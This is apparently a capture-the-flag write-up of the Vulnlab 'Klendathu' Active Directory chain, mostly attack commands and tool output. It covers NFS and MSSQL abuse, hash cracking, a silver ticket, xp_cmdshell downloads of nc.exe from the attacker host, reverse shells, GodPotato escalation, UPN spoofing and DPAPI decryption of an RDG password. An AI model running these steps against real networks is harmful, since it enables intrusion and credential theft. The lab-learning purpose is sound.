

# Before Starting 
```console
Me > 10.8.2.163
Target > 10.10.243.197 ; 10.10.243.198 ; 10.10.243.199
```
## Enumeration
```bash
nmap -sC -sV -A -T4 -p- -vvv ip


10.10.243.197 : # windows machine

Host is up (0.020s latency).
Not shown: 988 closed ports
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server

10.10.243.198 : # windows machine

PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1433/tcp open  mssql    (be patient, this one takes like 5 minutes to come up)
3389/tcp open  ms-wbt-server

10.10.243.199 : # linux machine

Host is up (0.020s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
2049/tcp open   nfs
```
We can see that the port 2049 is open on the linux machine :

[https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting](https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting)

## First User via nfs shares

```bash
rpcinfo -p 10.10.243.199

100003   4   tcp  2049  nfs
```
```bash
showmount -e 10.10.243.199
Export list for 10.10.243.199:
/mnt/nfs_shares *
```
Then we can mount like this :

```bash
mount -t nfs -o vers=4,nolock 10.10.243.199:/mnt/nfs_shares ./toto
```
We got 'Switch344_running-config.cfg', cat him and get the hash on the top of the file

```console
$1$[...]2Wb/
```
```bash
# crack it
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
On the bottom of the file we can see this : 'ZIM@KLENDATHU.VL'

So let's try creds for this user :

```bash
cme smb 10.10.243.198 -u 'zim' -p 'REDACTED'

SMB         10.10.243.198   445    SRV1             [*] Windows 10.0 Build 20348 x64 (name:SRV1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
SMB         10.10.243.198   445    SRV1             [+] KLENDATHU.VL\zim:REDACTED

cme ldap 10.10.243.197 -u 'zim' -p 'REDACTED'

SMB         10.10.243.197   445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
LDAP        10.10.243.197   389    DC1              [+] KLENDATHU.VL\zim:REDACTED

# then do a bloodhound
cme ldap 10.10.243.197 -u 'zim' -p 'REDACTED' --bloodhound -c all -ns 10.10.243.197

# list users
cme smb 10.10.243.197 -u 'zim' -p 'REDACTED' --users
SMB         10.10.243.197   445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
SMB         10.10.243.197   445    DC1              [+] KLENDATHU.VL\zim:REDACTED
SMB         10.10.243.197   445    DC1              [*] Trying to dump local users with SAMRPC protocol
SMB         10.10.243.197   445    DC1              [+] Enumerated domain user(s)
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\Administrator                  Built-in account for administering the computer/domain
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\Guest                          Built-in account for guest access to the computer/domain
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\krbtgt                         Key Distribution Center Service Account
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\RICO
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\JENKINS
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\IBANEZ
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\ZIM
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\DELADRIER
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\ALPHARD
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\LEIVY
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\FRANKEL
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\HENDRICK
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\PATERSON
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\AZUMA
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\CHERENKOV
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\CLEA
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\DUNN
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\FLORES
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\SHUJUMI
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\BARCALOW
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\BRECKENRIDGE
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\BYRD
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\MCINTHIRE
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\RASCZAK
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\svc_backup 
```
We can also list shares but unsuccessful


As we see at the start on our nmap scan, there is a mssql on the .198, let's see if zim can authenticate :

```bash
cme mssql 10.10.243.198 -u 'zim' -p 'REDACTED'
MSSQL       10.10.243.198   1433   SRV1             [*] Windows 10.0 Build 20348 (name:SRV1) (domain:KLENDATHU.VL)
MSSQL       10.10.243.198   1433   SRV1             [+] KLENDATHU.VL\zim:REDACTED
```
Nice ! Let's connect :

## MSSQL Relay attack with restricted rights

```bash
mssqlclient.py klendathu.vl/'zim':'REDACTED'@'10.10.243.198' -windows-auth
```
At this time of the chain, I tried many things but nothing worked since I did not have the rights for what i tried, some things (not all) that i tried here :

```console
Enable xp_cmdshell
xp_dirtree "\\10.8.2.163\toto"
exec master.dbo.xp_dirtree "\\10.8.2.163\toto"
EXEC master..xp_subdirs "\\10.8.2.163\toto"
EXEC master..xp_fileexist "\\10.8.2.163\toto"
Impersonate SA or someone that have more rights
```
But i found this [https://www.brentozar.com/archive/2017/07/sql-server-2017-less-xp_cmdshell/](https://www.brentozar.com/archive/2017/07/sql-server-2017-less-xp_cmdshell/)

So i set a responder and i ran this :

```bash
SELECT * FROM sys.dm_os_enumerate_filesystem('\\10.8.2.163', 'toto')
```


Ok, now let's try to crack it :

```bash
hashcat -m 5600 -a 0 hash_2.txt /usr/share/wordlists/rockyou.txt
```
Now try creds : 

```bash
cme smb 10.10.243.197 -u 'Rasczak' -p 'REDACTED'

SMB         10.10.243.197   445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
SMB         10.10.243.197   445    DC1              [+] KLENDATHU.VL\Rasczak:REDACTED

cme ldap 10.10.243.197 -u 'Rasczak' -p 'REDACTED'

SMB         10.10.243.197   445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
LDAP        10.10.243.197   389    DC1              [+] KLENDATHU.VL\Rasczak:REDACTED
```
## Silver Ticket + Shell with SeImpersonatePrivilege

So, we are targetting a mssql database, if we can craft a silver ticket then we will able to impersonate SA, enable "xp_cmdshell" and get a shell with "SeImpersonatePrivilege" therefore, run a Potato and we are NT/AUTHORITY SYSTEM

[https://zethicxz.github.io/VL-Sendai-Machine/#other-way-to-privesc-silver-ticket--seimpersonateprivilege](https://zethicxz.github.io/VL-Sendai-Machine/#other-way-to-privesc-silver-ticket--seimpersonateprivilege)

[https://vulndev.io/2022/01/08/kerberos-silver-tickets/](https://vulndev.io/2022/01/08/kerberos-silver-tickets/)

Let's start the attack :

```bash
ticketer.py -nthash 'E2[...]72C' -domain-sid S-1-5-21-641890747-1618203462-755025521 -domain klendathu.vl -spn MSSQLSvc/srv1.klendathu.vl -user-id 500 Administrator

export KRB5CCNAME='Administrator.ccache'

mssqlclient.py srv1.klendathu.vl -windows-auth -k
```
```bash
# Enable xp_cmdshell
> EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

# Verify that we have SeImpersonatePrivilege
> xp_cmdshell "whoami /priv"

SeImpersonatePrivilege        Impersonate a client after authentication Enabled

> xp_cmdshell "echo IWR http://10.8.2.163/nc.exe -OutFile %TEMP%\nc.exe | powershell -noprofile"
> xp_cmdshell "%TEMP%\nc.exe 10.8.2.163 9001 -e powershell"
```
Then upload GodPotato and nc.exe in C:\temp

```powershell
./godpotato.exe -cmd "cmd /c C:\temp\nc.exe 10.8.2.163 1234 -e powershell
```


Bingo !!

## Abusing mixed vendor kerberos stacks

Ok now, i'll be 100% honest i was really lost, so i check the wiki of vulnlab for a guidance, and the wiki say that : 

```console
Look into mixed vendor kerberos stacks - your goal is logging into the linux server
```
So i google : 'mixed vendor kerberos stacks' and i found this :

[https://www.pentestpartners.com/security-blog/a-broken-marriage-abusing-mixed-vendor-kerberos-stacks/](https://www.pentestpartners.com/security-blog/a-broken-marriage-abusing-mixed-vendor-kerberos-stacks/)

[https://www.youtube.com/watch?v=ALPsY7X42o4](https://www.youtube.com/watch?v=ALPsY7X42o4)

I'll let you look at the links i put because they explain extremely well but in summary, if you have rights such as "Generic Write" on a domain user, you can edit the attribute "userPrincipalName". Therefore, we can set this to the value of the samAccountName attribute of another AD account.

The attribute "userPrincipalName" is utilized by NT_ENTERPRISE and NT_ENTERPRISE is a name-type

And thanks to NT_ENTERPRISE we can spoof domain users

[The algorithm to find which user will be used for authentication purposes when searching for principals within the realm](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/6435d3fb-8cf6-4df5-a156-1277690ed59c)

Simplified version of the algorithm :


So let's verify if we have "Generic Write" on a domain user :


Yes we have !! We can also modify their password, let's check which user are in the group "Linux_Admins"


Ok so, we need to edit the attribute "userPrincipalName" of flores or leivy (no matter) and make the "name-type" be NT_ENTERPRISE instead of NT_PRINCIPAL, we can do this with Rubeus.exe or if we modify getTGT.py of the impacket collections

After that we gonna have a .ccache with which we can ssh as "Linux_Admins"

Ok let's start : 

```console
# Note that i restart the box so we have new ip's :

10.10.245.69 DC1.klendathu.vl klendathu.vl DC1
10.10.245.70 SRV1.klendathu.vl klendathu.vl SRV1
10.10.245.71 SRV2.klendathu.vl klendathu.vl SRV2
```
First we need to change their password and after the attribute in ldap, for that we gonna use ldapmodify with a .lidf file, i found this link which explain : [Modify with .ldif](https://www.digitalocean.com/community/tutorials/how-to-use-ldif-files-to-make-changes-to-an-openldap-system)

And i asked to Chatgpt to create me a .ldif file and he returned me that


```bash
net rpc password "ibanez" 'newP@ssword2022' -U "dc1.klendathu.vl"/"Rasczak"%"REDACTED" -S "10.10.243.197"

cme smb 10.10.243.197 -u 'ibanez' -p 'newP@ssword2022'

SMB         10.10.243.197   445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
SMB         10.10.243.197   445    DC1              [+] KLENDATHU.VL\ibanez:newP@ssword2022

net rpc password "rico" 'newP@ssword2022' -U "dc1.klendathu.vl"/"Rasczak"%"REDACTED" -S "10.10.243.197"

cme smb 10.10.243.197 -u 'rico' -p 'newP@ssword2022'

SMB         10.10.243.197   445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
SMB         10.10.243.197   445    DC1              [+] KLENDATHU.VL\rico:newP@ssword2022
```
So now we can modify ldap and verify :


Now i tried to ask a tgt by specifying "NT_ENTERPRISE" as name type with Rubeuse on SRV1 :


But i don't know why this wasn't working

So i was looking for a pull request for "impacket-getTGT" and i found this :

[Pull Request](https://github.com/fortra/impacket/pull/1748)

And as you can see in the example we can see that it gets a .ccache for leivy, so we can deduce that the pull request was made for this chain, perfect let's use it :

```bash
python3 getTGT.py klendathu.vl/'leivy':'newP@ssword2022' -dc-ip 10.10.245.69 -principal NT_ENTERPRISE

[*] Saving ticket in leivy.ccache

export KRB5CCNAME='leivy.ccache'

klist
Ticket cache: FILE:leivy.ccache
Default principal: leivy@KLENDATHU.VL

Valid starting       Expires              Service principal
07/30/2024 14:49:34  07/31/2024 00:49:34  krbtgt/KLENDATHU.VL@KLENDATHU.VL
        renew until 07/31/2024 14:49:44
```
Now we need to modify our /etc/ssh/sshd_config and our /etc/krb5.conf

[Using Openssh Kerberos](https://www.ibm.com/docs/en/aix/7.1?topic=support-using-openssh-kerberos)

```bash
----- Modify this in /etc/ssh/sshd_config -----

# Kerberos options
KerberosAuthentication yes
#KerberosOrLocalPasswd yes
#KerberosTicketCleanup yes
#KerberosGetAFSToken no

# GSSAPI options
GSSAPIAuthentication yes
GSSAPICleanupCredentials yes
#GSSAPIStrictAcceptorCheck yes
#GSSAPIKeyExchange no

----- Modify this in /etc/krb5.conf -----

[libdefaults]
    default_realm = KLENDATHU.VL
    dns_lookup_realm = false
    dns_lookup_kdc = true

# The following krb5.conf variables are only for MIT Kerberos.
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        rdns = false

[realms]
    KLENDATHU.VL = {
        kdc = dc1.klendathu.vl
        admin_server = dc1.klendathu.vl
    }

[domain_realm]
    .klendathu.vl = KLENDATHU.VL
    klendathu.vl = KLENDATHU.VL
``` 
After that we can ssh using -K and becoming root like that :


Nice ! 

## Decrypt a .rdg password using ntdissector and dpapil

Now go in /root/inc5543_domaincontroller_backup/

We can see a note.txt

```console
[root@srv2 inc5543_domaincontroller_backup]# cat note.txt
Incident: INC5543

I've included a backup of the domain controller before resetting all passwords after the last breach
```
There is also 2 files "SECURITY" & "SYSTEM" in a directory named "registry" and another directory name "Active Directory" which contains 2 files "ntds.dit" & "ntds.jfm"

So download every files and my first reflex was to secretsdump :

```bash
secretsdump -ntds ntds.dit -system SYSTEM LOCAL

Administrator:500:aad3b435b51404eeaad3b435b51404ee:c05b9e7dfd1fbbd1a3605b76c2f3caaa:::
```
I tried the hash :

```bash
cme ldap 10.10.245.69 -u 'Administrator' -H 'c05b9e7dfd1fbbd1a3605b76c2f3caaa'

SMB         10.10.245.69    445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
LDAP        10.10.245.69    389    DC1              [-] KLENDATHU.VL\Administrator:c05b9e7dfd1fbbd1a3605b76c2f3caaa
```
As said in note.txt, all passwords have been reset so the hash is that of the old password, this is why

But in /tmp i found this : 

```console
[root@srv2 tmp]# ls /tmp
krb5cc_990001135
```
I downloaded it and do a describeTicket on it:
```bash
describeTicket.py 'krb5cc_990001135'
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Number of credentials in cache: 1
[*] Parsing credential[0]:
[*] Ticket Session Key            : 17ce46dd70cc67524b3da4bc63f07235fde5bf51539f74edadd3addb848e0d60
[*] User Name                     : svc_backup
[*] User Realm                    : KLENDATHU.VL
[*] Service Name                  : krbtgt/KLENDATHU.VL
[*] Service Realm                 : KLENDATHU.VL
[*] Start Time                    : 30/07/2024 16:06:29 PM
[*] End Time                      : 31/07/2024 02:06:29 AM
[*] RenewTill                     : 06/08/2024 16:06:29 PM
[*] Flags                         : (0x40e10000) forwardable, renewable, initial, pre_authent, enc_pa_rep
[*] KeyType                       : aes256_cts_hmac_sha1_96
[*] Base64(key)                   : F85G3XDMZ1JLPaS8Y/ByNf3lv1FTn3TtrdOt24SODWA=
[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : krbtgt/KLENDATHU.VL
[*]   Service Realm               : KLENDATHU.VL
[*]   Encryption type             : aes256_cts_hmac_sha1_96 (etype 18)
```
So we have the svc_backup ticket

```bash
export KRB5CCNAME='krb5cc_990001135'

klist

Ticket cache: FILE:krb5cc_990001135
Default principal: svc_backup@KLENDATHU.VL

Valid starting       Expires              Service principal
07/30/2024 16:06:29  07/31/2024 02:06:29  krbtgt/KLENDATHU.VL@KLENDATHU.VL
        renew until 08/06/2024 16:06:29
```
```bash
cme smb 10.10.245.69 --use-kcache

SMB         10.10.245.69    445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
SMB         10.10.245.69    445    DC1              [+] KLENDATHU.VL\svc_backup from ccache
```
```bash
smbclient.py klendathu.vl/svc_backup@dc1.klendathu.vl -k -no-pass -debug

[+] Impacket Library Installation Path: /root/.pyenv/versions/3.11.9/lib/python3.11/site-packages/impacket
[+] Using Kerberos Cache: krb5cc_990001135
[+] SPN CIFS/DC1.KLENDATHU.VL@KLENDATHU.VL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for KRBTGT/KLENDATHU.VL@KLENDATHU.VL
[+] Using TGT from cache
[+] Trying to connect to KDC at KLENDATHU.VL:88
```
Then we can go in 'HomeDirs/JENKINS' :

```console
# ls
drw-rw-rw-          0  Sat Apr 13 03:32:21 2024 .
drw-rw-rw-          0  Thu Apr 11 02:58:10 2024 ..
-rw-rw-rw-     101234  Sat Apr 13 03:32:11 2024 AppData_Roaming_Backup.zip
-rw-rw-rw-       1077  Fri Apr 12 06:08:35 2024 jenkins.rdg
```
Unzip the first file and cat the second file which returned this :

```xml
cat jenkins.rdg
<?xml version="1.0" encoding="utf-8"?>
<RDCMan programVersion="2.93" schemaVersion="3">
  <file>
    <credentialsProfiles>
      <credentialsProfile inherit="None">
        <profileName scope="Local">KLENDATHU\administrator</profileName>
        <userName>administrator</userName>
        <password>AQ[...]ShAxQ==</password>
        <domain>KLENDATHU</domain>
      </credentialsProfile>
    </credentialsProfiles>
    <properties>
      <expanded>True</expanded>
      <name>jenkins</name>
    </properties>
    <server>
      <properties>
        <name>dc1.klendathu.vl</name>
      </properties>
      <logonCredentials inherit="None">
        <profileName scope="File">KLENDATHU\administrator</profileName>
      </logonCredentials>
    </server>
  </file>
  <connected />
  <favorites />
  <recentlyUsed />
</RDCMan>
```
So we have a encrypted password

After extracting the .zip we have also the path of master keys "./Roaming/Microsoft/Protect"

[Decrypt RDG with mimikatz](https://tools.thehacker.recipes/mimikatz/modules/dpapi/rdg)

We will therefore have to do a little bit like that (i mean in the idea) but in local thanks to what we have recovered im the smb

Using ntdissector :

[Windows secrets extraction: a summary](https://www.synacktiv.com/publications/windows-secrets-extraction-a-summary)

[The github](https://github.com/synacktiv/ntdissector)

[Introducing ntdissector, a swiss army knife for your NTDS.dit files](https://www.synacktiv.com/publications/introducing-ntdissector-a-swiss-army-knife-for-your-ntdsdit-files)

```bash
ntdissector -ntds /home/samy/ntds.dit -system /home/samy/SYSTEM -outputdir /tmp/test -ts -f all

cat /tmp/test/out/319ca86c07a0995d470fce37e50c44fb/secret.json | jq

# get the pvk
HvG1s[...]MuzV4=

echo "HvG[...]zV4=" | base64 -d > pvk.key
```
We need this private key with the path where the master keys are located, we also need the SID of the user that was used to encrypt the data in order to decrypt DPAPI blobs

Then i asked to ChatGPT to give me a python script on a github for decrypt the .rdg file using : PVK File, Master-Keys and the SID, he built me ​​a tool that didn't work but the tool used "dpapil", so I went to github and came across "rdgdec.py", so I'm going to use this script to decrypt the .rdg file

[Script on the github](https://github.com/tijldeneut/dpapilab-ng/blob/main/rdgdec.py)

```bash
python3 rdgdec.py ../jenkins.rdg --masterkey=../Roaming/Microsoft/Protect/S-1-5-21-641890747-1618203462-755025521-1110/ --sid S-1-5-21-641890747-1618203462-755025521-1110 -k ../pvk.key
```


Nice !!!

Now just do a winrm 


If you have any questions or any comments on this post, you can dm me on discord : "ethicxz." or on [instagram](https://www.instagram.com/eliott.la/)
